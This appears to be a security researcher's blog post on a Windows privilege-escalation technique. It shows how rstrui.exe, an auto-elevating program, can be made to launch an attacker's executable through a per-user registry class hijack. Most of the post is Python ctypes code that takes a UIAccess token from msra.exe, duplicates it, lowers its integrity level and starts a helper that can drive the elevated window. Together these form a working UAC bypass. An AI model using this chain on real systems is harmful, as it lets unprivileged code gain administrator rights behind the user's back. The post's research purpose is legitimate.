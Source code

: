 ```yaml
---
layout: post
title: RESEARCHING RSTRUI PROCESS
vimeoId: 344967402
---
```


Rstrui is a signed Microsoft executable, which handles the system restore features. This executable has "autoElevate" property set to true in the manifest which
means it will run with high integrity level. While playing around in [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from
Sysinternals, I found out that rstrui.exe accepts command line arguments, I focused on the "/RUNONCE" argument.

While monitoring the activity, I couldn't find any vulnerabilities at first. The UI starts up and fails, because I haven't configured the
system restore feature on the test machine. Pressed the left button "Run System Restore", see picture below. 

![_config.yml]({{ site.baseurl }}/images/rstrui_ui.JPG)

And checked back at ProcessMonitor, saw that it suffers from a class hijacking vulnerability, see picture below.

![_config.yml]({{ site.baseurl }}/images/rstrui_procmon.JPG)

If adding path to another executable in the {Default} value at "HKCU\Software\Classes\exefile\shell\runas\command\" we can trick rstrui to elevate another executable once
pressing "Run System Restore" button.

{% include vimeo.html id=page.vimeoId %}

One problem is that we cannot control this UI from a Medium IL process. In order to navigate the UI from a Medium IL process, we need to obtain a UIAccess token.

The first step is to either create or find a process with UIAccess flag, in this example we use "msra.exe" but could use "ctfmon.exe" which is running by default,
in that case we don't need to create a new process.
```python
shinfo = ShellExecInfo()
shinfo.cbSize = ctypes.sizeof(shinfo)
shinfo.fMask = 0x00000040
shinfo.lpFile = "msra.exe"
shinfo.nShow = 0
shinfo.lpParameters = None

with disable_fsr():
	if ctypes.windll.shell32.ShellExecuteExW(ctypes.byref(shinfo)):
		print "[+] Created host process PID: {pid} using ShellExecuteExW".format(pid=shinfo.hProcess)
	else:
		print "[-] Unable to create host process using ShellExecuteExW"
		return False
```

Open the token with TOKEN_DUPLICATE and TOKEN_QUERY access
```python
token = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtOpenProcessToken(shinfo.hProcess, (TOKEN_DUPLICATE | TOKEN_QUERY),
											ctypes.byref(token)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to open process token using NtOpenProcessToken"
	return False
else:
	print "[+] Opened process token using NtOpenProcessToken: {token}".format(token=token)
```

Duplicate primary token with TOKEN_ALL_ACCESS access
```python
dtoken = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtDuplicateToken(token, TOKEN_ALL_ACCESS, None, False,
										TOKEN_TYPE.TokenPrimary, ctypes.byref(dtoken)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to duplicate token using NtDuplicateToken"
	return False
else:
	print "[+] Duplicated token using NtDuplicateToken: {dtoken}".format(dtoken=dtoken)
```

Initialize Medium SID and lower the duplicated token from Medium+ to Medium integrity
```python
mlAuthority = SID_IDENTIFIER_AUTHORITY((0, 0, 0, 0, 0, 16))
pIntegritySid = ctypes.c_void_p()

if ctypes.windll.ntdll.RtlAllocateAndInitializeSid(ctypes.byref(mlAuthority), 1, IntegrityLevel.MEDIUM_RID,
													0, 0, 0, 0, 0, 0, 0, ctypes.byref(pIntegritySid)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to Initialize Medium SID using RtlAllocateAndInitializeSid"
	return False
else:
	print "[+] Initialized Medium SID using RtlAllocateAndInitializeSid"

saa = SID_AND_ATTRIBUTES()
saa.Attributes = GroupAttributes.SE_GROUP_INTEGRITY
saa.Sid = pIntegritySid

tml = TOKEN_MANDATORY_LABEL()
tml.Label = saa

if ctypes.windll.ntdll.NtSetInformationToken(dtoken, TOKEN_INFORMATION_CLASS.TokenIntegrityLevel,
											ctypes.byref(tml), ctypes.sizeof(tml)) == ctypes.c_ulong(0xC0000001):													
	print "[-] Unable to lower duplicated token IL from Medium+ to Medium using NtSetInformationToken"
	return False
else:
	print "[+] Lowered duplicated token IL from Medium+ to Medium using NtSetInformationToken"
```

Using CreateProcessAsUserA we can create a new process using the duplicated token, which has the UIAccess flag.
This process can control a High IL process with SendKeys or keyboard events.
```python
lpStartupInfo = STARTUPINFO()
lpStartupInfo.cb = ctypes.sizeof(lpStartupInfo)
lpStartupInfo.dwFlags = 0x00000001
lpStartupInfo.wShowWindow = 5
lpProcessInformation = PROCESS_INFORMATION()
lpApplicationName = os.path.join(os.getcwd(), "dist\\uihack.exe")

if not ctypes.windll.advapi32.CreateProcessAsUserA(dtoken, None, lpApplicationName, None, None, False,
													(0x04000000 | 0x00000010), None, None, ctypes.byref(lpStartupInfo),
													ctypes.byref(lpProcessInformation)):
	print "[-] Unable to create process using CreateProcessAsUserA"
	return False
else:
	print "[+] Created process PID: {pid} using CreateProcessAsUserA".format(pid=lpProcessInformation.dwProcessId)
```
